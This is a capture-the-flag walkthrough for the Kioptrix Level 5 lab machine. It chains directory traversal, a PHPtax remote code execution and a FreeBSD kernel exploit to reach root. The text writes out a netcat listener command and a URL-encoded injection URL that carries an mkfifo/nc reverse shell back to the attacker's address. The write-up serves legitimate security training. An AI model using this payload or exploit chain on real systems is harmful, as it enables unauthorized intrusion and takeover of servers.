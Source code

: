 # GETTING STARTED

To download Kioptrix Level 5, click [here](https://www.vulnhub.com/entry/kioptrix-2014-5,62/).

**DISCLAIMER**
> This writeup documents the steps that successfully led to pwnage of the machine. It does not include the dead-end steps encountered during the process (which were numerous). I recommend attempting to solve the lab independently. If you find yourself stuck on a phase for more than a day, you may refer to the writeups for guidance. Please note that this is just one approach to capturing all the flags, and there are alternative methods to solve the machine.

**Note:** The IP address of my machines may change throughout the walkthrough because I worked on them in different locations. Please bear with me as you follow along.
# RECONNAISSANCE

To find the target IP, I perform a network scan using **nmap**.

```bash

┌──(root㉿kali)-[~/ctf/kioptrix-5]
└─# nmap -sn 192.168.1.0/24              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 13:30 EDT
Nmap scan report for RTK_GW (192.168.1.1)
Host is up (0.0023s latency).
MAC Address: F8:C4:F3:D0:63:13 (Shanghai Infinity Wireless Technologies)
Nmap scan report for kioptrix2014 (192.168.1.159)
Host is up (0.00035s latency).
MAC Address: 00:0C:29:D7:83:3F (VMware)
Nmap scan report for kali (192.168.1.12)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.98 seconds
```

After identifying the target IP as *192.168.1.159*, I perform an aggressive **nmap** scan on it to find open ports and running services.

![](IMAGES/1.png)

![](IMAGES/2.png)

Let's start the hack! ;)
# INITIAL ACCESS

I try fetching information about port 8080, but I am denied access.

![](IMAGES/3.png)

I fetched information about port 80 using **curl** and found an interesting path.

![](IMAGES/4.png)

I accessed the path in the browser and landed on a charting application.

![](IMAGES/5.png)

I used **searchsploit** to look for any available vulnerabilities of this charting system and found a bunch.

![](IMAGES/6.png)

![](IMAGES/7.png)

Based on this, it seems that the application is vulnerable to *directory traversal* and *reflected XSS*.

Hence, to test it out, I tried adding `../../../` at the end of the URL.

![](IMAGES/8.png)

![](IMAGES/9.png)

Now that I know that it works, I go to the **Exploit-DB** website and view the entire information about the directory traversal vulnerability. I find this URL, so I give it a try.

![](IMAGES/10.png)

![](IMAGES/11.png)

I successfully got the */etc/passwd* file. Now I use chat-gpt to find the directory where FreeBSD systems store Apache configuration details.

![](IMAGES/12.png)

Hence, I access this file. Since the **nmap** scan revealed the Apache version, I look for the *apache22* directory.

![](IMAGES/13.png)

I read the configuration file and found the reason I was being denied access to port 8080.

![](IMAGES/14.png)

It required a specific user-agent. I use **curl** to fetch information about that port by adding this user-agent.

![](IMAGES/15.png)

This time, I was able to view the contents. I used **searchsploit** to look into *phptax* for possible exploits.

>PHPtax is a free, open-source web application designed for managing and preparing tax documents. It was created to help individuals and small businesses handle their tax-related tasks more efficiently without needing to invest in expensive commercial software. The application allows users to input their financial data, track their income and expenses, and generate tax forms that are compliant with the relevant regulations. PHPtax is built using PHP, making it accessible for those who have a basic understanding of web development, and can be customized or extended to fit specific needs. Its primary goal is to simplify the tax preparation process while providing a flexible, user-friendly platform.

![](IMAGES/16.png)

I tried the exploit available on **Metasploit**, but it didn't work for me. So, I Googled to look for any other ways.

I found this exploit on **Exploit-DB** that allowed me to get a reverse shell using **nc**: [exploit link](https://www.exploit-db.com/exploits/21665).

I started an **nc** listener on port 4444.

```bash

rlwrap nc -lnvp 4444
```

I then visited [revshells.com](https://www.revshells.com/) and selected the **nc mkfifo** exploit.

![](IMAGES/17.png)

For increasing the odds of success, I URL encoded this payload.

![](IMAGES/18.png)

Now I edited this URL that was given in the **Exploit-DB** page with my own reverse shell script.

![](IMAGES/19.png)

```url

http://192.168.1.2:8080/phptax/drawimage.php?pfilez=1040d1-pg2.tob;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.1.12%204444%20%3E%2Ftmp%2Ff;&pdf=make
```

Now I download an extension that allows me to modify the header. This is because I want to execute this URL on my browser, and without the *user-agent* field, I won't be able to access the site.

![](IMAGES/20.png)

I configure it to add the appropriate *user-agent* field.

![](IMAGES/21.png)

I save this and turn my extension on, then paste my URL.

![](IMAGES/22.png)

And voila! I got the initial access.

![](IMAGES/23.png)

# PRIVILEGE ESCALATION

I look around and find the flag inside the root directory. However, I do not have the privilege to read it.

![](IMAGES/24.png)

I view the kernel information using **uname**.

![](IMAGES/25.png)

I look for exploits related to this FreeBSD version.

![](IMAGES/26.png)

I download the first exploit on my PC and check if I have **gcc** installed on the target.

```bash

which gcc
```

Then I move into the *tmp* directory. Since the system does not have **wget**, I found another command that can be used in its place in this [article](https://forums.freebsd.org/threads/what-is-the-download-command-in-freebsd.10123/)

![](IMAGES/27.png)

![](IMAGES/28.png)

I compile and run this exploit.

![](IMAGES/29.png)

Hence, I got root access. Now I move into the root directory and set permissions on the flag.

![](IMAGES/30.png)

>The `777` in `chmod 777` means:
>- `7` for the owner: read, write, and execute permissions.
>- `7` for the group: read, write, and execute permissions.
>- `7` for others: read, write, and execute permissions.
>So, everyone can read, write, and execute the file.

![](IMAGES/31.png)

# CLOSURE

Here's a summary of how I pwned Kioptrix Level 5:
- I exploit the LFI vulnerability in the *pchart* page to get HTTP configuration information.
- This gave me a way to access the server on port 8080.
- I use the *phptax* RCE exploit to get a reverse shell from the server running on port 8080.
- I use a kernel exploit to escalate my privilege.

That's it from my side. See you in the next walkthrough.

![](IMAGES/32.png)

Happy Hacking :)

------------------------------------------------------------------------------------